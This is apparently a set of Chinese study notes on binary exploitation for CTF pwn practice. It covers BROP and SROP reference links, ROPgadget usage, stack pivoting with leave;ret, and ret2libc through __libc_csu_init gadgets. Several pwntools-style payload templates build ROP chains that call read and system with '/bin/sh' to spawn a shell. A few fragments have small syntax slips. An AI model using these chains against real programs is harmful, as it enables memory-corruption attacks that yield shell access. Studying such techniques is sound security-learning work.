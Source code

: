## brop
http://www.scs.stanford.edu/brop/

## srop
https://www.freebuf.com/articles/network/87447.html
https://blog.csdn.net/qq_29343201/article/details/72627439

## ROP
 1. ROPgadget 得到代码片断
 2. cd80c3 就是int0x80;ret,s使用`ROPgadget --binary {binaryname} --opcode cd80c3`来寻找
 3. 动态链接找不到 int 0x80,需要构造rop

### 寄存器赋值
构造栈结构
```
  *(pop eax ;ret)
  3
```
将eax赋值为3
### 栈转移
寻找 leave;ret;指令，然后更改ebp的值即可
```py
payload += p32(base_stage)
payload += p32(leave_ret)
#leave= mov esp,ebp,pop ebp
```
例子：将esp设置到bss段上
```py
payload = flat(
  [
  'A' * offset, # 覆盖到ret
  read_plt, # 读100个字节到base_stage
  ppp_ret, # pop esi ; pop edi ; pop ebp ; ret 清空参数
  0,
  base_stage,
  100,
  pop_ebp_ret, # 把base_stage pop到ebp中
  base_stage,
  leave_ret  #mov esp,ebp;pop ebp
  ]
)
cmd = "/bin/sh"
payload1= flat(
  [
    'A' *4 # 接payload1，ebp='AAAA'
    write_plt
    #...
  ]
)
```

## 通用技术
常用的栈布局如下
```py
# 32位
flat(
    [
    read_addr,
    system_addr,
    0, #read 函数一个参数 fd/system返回地址
    binsh_addr #read第二个参数/system第一个参数
    ]
)

flat([
        gets,
        system,
        buf,
        buf
        ])
# 64位
flat(
    [
        pop_edi,
        0, //read第一个参数 fd
        pop_rsi,
        binsh_addr, #read第二个参数 sh字符串地址
        pop_rdx, 
        20,      #read第三个参数 长度
        read_addr,
        pop_rdi, 
        binsh_addr,# system第一个参数
        system_addr,
    ]
)
```
## ret2libc
64下通用gadget,`__libc_csu_init`,一共两端代码，可以设置三个寄存器传参的值
```asm
;第一段代码gad1
  pop     rbx  ;必须为0
  pop     rbp  ;必须为1
  pop     r12  ;你call函数的地址(应该是got上的?)
  pop     r13  ;arg3
  pop     r14  ;arg2
  pop     r15  ;arg1
  retn         ;gad2
```

```asm
;第二段代码gad2
mov     rdx, r13
mov     rsi, r14
mov     edi, r15d
call    qword ptr [r12+rbx*8] call!!!
add     rbx, 1
cmp     rbx, rbp
jnz     short loc_400880
add     rsp, 8
pop     rbx
pop     rbp
pop     r12
pop     r13
pop     r14
pop     r15 ;这个地方可以构造错位gadgets,恰好可以构造为pop rdi,ret
retn     ;构造一些垫板(7*8=56byte)，因为后面后面还有很多pop+rbp+ret
```